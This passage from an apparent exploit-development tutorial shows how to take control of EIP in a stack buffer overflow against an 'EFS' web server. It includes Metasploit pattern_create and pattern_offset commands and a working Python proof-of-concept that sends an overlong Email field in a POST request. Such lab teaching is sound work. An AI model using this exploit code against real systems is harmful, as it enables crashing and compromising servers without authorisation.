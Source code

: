 Great, examining our buffer we see that once again our EIP is overwritten with B's and our stack contains all the characters sent.

2) Verify Control of EIP

Back to the original exploit, We have seen we overwrote EIP with A's, But we have also sent 4144 A's, Any of which could
be the ones that overwrote our instruction pointer. To help us identify the exact offset, we are going to use metasploit's pattern create. Basically, this will create a unique string of 4144 bytes in length. We can then
replace our payload with this string, and use metasploit's pattern offset to identify the exact offset of our EIP.

To generate a string, use the following command:

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4144`

Now copy and paste the output into our exploit, replacing the A's.

Restart the EFS server and launch the exploit once again. You should see the following:

![Offset, there you are.]({{ "/images/Stack/Offset.png" | absolute_url }})

We see EIP is now overwritten with ```66463766```. To determine the offset, we will use the following command:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4144 -q 66463766`

Which tells us the offset is 4072. Lets verify this in our exploit. Replace the payload string with 4072 instances of A plus four instances of B and fill the remainder with C's. Our exploit should
look like the following:

``` ruby
#!/usr/bin/python

import socket
import sys

if len(sys.argv) < 2:
        print "Usage: python EFS.py [IP]\n"
        print "i.e python  EFS.py 192.168.56.101\n"
        exit(1)


crash = "A"*4072+"B"*4+"C"*(4144-4076)

buffer  ="POST /sendmail.ghp HTTP/1.1 \r\n" 
buffer +="Email=" + crash + "&getPassword=Get+Password"

EFS = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
EFS.connect((sys.argv[1], 80))
EFS.send(buffer)
EFS.close()
```

Lets restart the server, attach it to immunity and fire off our exploit. Bingo! EIP has been overwritten with B's. We now have the Offset for EIP, time to redirect execution flow.
